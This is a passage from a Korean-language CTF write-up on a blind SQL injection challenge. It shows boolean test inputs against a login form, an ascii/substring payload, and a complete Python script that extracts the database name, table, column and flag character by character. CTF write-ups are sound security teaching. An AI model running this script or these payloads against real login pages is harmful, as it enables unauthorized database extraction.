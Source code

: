 **이렇게 최종 flag를 획득하였다.**

---

## SQL Injection 6 (Blind SQLI)

이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

하지만 이번에는 **Error Based SQL Injection** 기법을 시도했으나, **서버 측 필터링 또는 예외 처리로 인해 동작하지 않았다.**

따라서 이번에는 **Blind SQL Injection** 방식으로 공격을 진행해보겠다

```sql
normaltic' or ascii(substring(database(),1,1))=115 and '1'='1
```

위 페이로드를 실행한 결과, **조건이 참일 경우 `200 OK`**, 거짓일 경우 `302 리다이렉션` 응답이 발생하였다.
이를 기반으로, **Blind SQL Injection 자동화를 위한 파이썬 스크립트**를 작성해보겠다.

```python
import requests

def data(sql):
    result = ""
    for i in range(1, 50):
        for ascii_code in range(32, 127):
            payload = f"normaltic' or ascii(substr(({sql}),{i},1))={ascii_code} and '1'='1"
            data = {"UserId": payload, "Password": "1234", "Submit": "Login"}
            r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
            if r.status_code == 200:
                result += chr(ascii_code)
                print(chr(ascii_code), end='')
                break
        else:
            break
    return result

print("DB: ")
db = data("database()")
print("\n")
print("Table: ")
table = data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
print("\n")
print("Column:")
col = data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
print("\n")
print("Flag:")
flag = data(f"select {col} from {table} limit 0,1")
print("\n")
print(f"Flag → {flag}")
```
